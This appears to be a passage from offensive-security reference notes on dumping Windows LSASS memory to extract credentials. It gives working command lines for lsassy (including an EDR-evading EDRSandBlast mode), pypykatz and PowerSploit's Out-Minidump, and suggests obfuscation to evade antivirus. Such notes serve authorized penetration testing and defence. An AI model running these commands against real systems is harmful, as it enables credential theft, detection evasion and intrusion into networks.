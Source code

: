 The Python utility and library `lsassy` can be used to remotely dump the
`LSASS` processes, and extract credentials, on one or multiple hosts in a
distributed manner. `Lsassy` tries to dump the `LSASS` process of the specified
hosts, and if successful, parses the `LSASS` dumps directly on the remote
hosts.

`lsassy` implements three techniques, explicated above, to dump the `LSASS`
process: using the Windows built-in `comsvcs.dll` DLL executed using
`rundll32.exe`, by uploading and executing `sysinternals`' `procdump.exe`,
and ultimately by uploading and executing `dumpert.exe`.

The `pypykatz` Python script, which is an implementation of some
functionalities of `Mimikatz` in pure Python, is used to extract the
credentials from the `LSASS` dump.

Standalone binaries of `lsassy` for Linux / Windows are available on the
following [`OffensivePythonPipeline` GitHub
repository](https://github.com/Qazeer/OffensivePythonPipeline).

```bash
# As a standalone CLI utility
# TARGETS = IP(s), range(s), CIDR(s), hostname(s), FQDN(s), file(s) containing a list of targets
lsassy [-d <DOMAIN>>] -u <USERNAME> -p <PASSWORD> --format pretty <TARGETS>
lsassy [-d <DOMAIN>] -u <USERNAME> -H <NTLM_HASH> --format pretty <TARGETS>

# Dumps using EDRSandBlast.
lsassy [-d <DOMAIN>>] -u <USERNAME> [-p <PASSWORD> | -H <NTLM_HASH>] -m edrsandblast --options edrsandblast_path=<EDRSandblast.exe_PATH>,RTCore64_path=<RTCore64.sys_PATH>,ntoskrnl_path=<NtoskrnlOffsets.csv_PATH> <TARGETS>

# As a Python library
from lsassy.core import Lsassy

lsassy = Lsassy(hostname="<HOSTNAME | IP>", username="<USERNAME>", domain="<DOMAIN>", password="<PASSWORD>")
credentials = lsassy.get_credentials()
for credential in credentials:
    [...]
```

Additionally, `lsassy` can be used as a `CrackMapExec` module (installation and
usage detailed below).

###### PowerSploit's Out-Minidump

The `Out-Minidump.pS1` PowerShell script, part of `PowerSploit` suite, uses
the `MiniDumpWriteDump` API, retrieved from
`System.Management.Automation.WindowsErrorReporting`, to create a minidump of
the specified process.

Obfuscated versions of `Out-Minidump.pS1` may held good result against security
products (antivirus and `EDR` solutions).

```Powershell
# Import-Module .\Out-Minidump.ps1

# Dumps lsass, or the process specified by <PROCESS_NAME>, memory in the current (or given) folder.
Get-Process <lsass | PROCESS_NAME> | Out-Minidump [-DumpFilePath <FOLDER>]
Out-Minidump -Process (Get-Process -Id <PID>)
```

